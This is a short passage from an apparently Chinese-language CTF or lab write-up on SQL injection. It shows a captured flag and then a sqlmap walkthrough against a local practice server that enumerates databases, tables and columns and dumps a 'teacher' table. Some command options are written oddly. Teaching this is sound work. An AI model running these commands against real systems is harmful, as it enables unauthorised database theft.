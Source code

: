 ```
r:'234231,flag{SQL_Inj3ct10n}
```



### 使用sqlMap完成例题

```shell
# 跑数据库
sqlmap -u http://127.0.0.1:8000/\?student id\=2019122001 --dbs
# 现在使用的数据库
sqlmap -u http://127.0.0.1:8000/\?student id\=2019122001 --current-db
# -D是指定库名 -tables是查所有表
sqlmap -u http://127.0.0.1:8000/\?student id\=2019122001 --D college -tables
# -T 是指定表名 --columns是所有列
sqlmap -u http://127.0.0.1:8000/\?student id\=2019122001 --D college -T teacher --columns
# --dump是将表中所有信息dump出来
sqlmap -u http://127.0.0.1:8000/\?student id\=2019122001 --D college -T teacher --dump
```


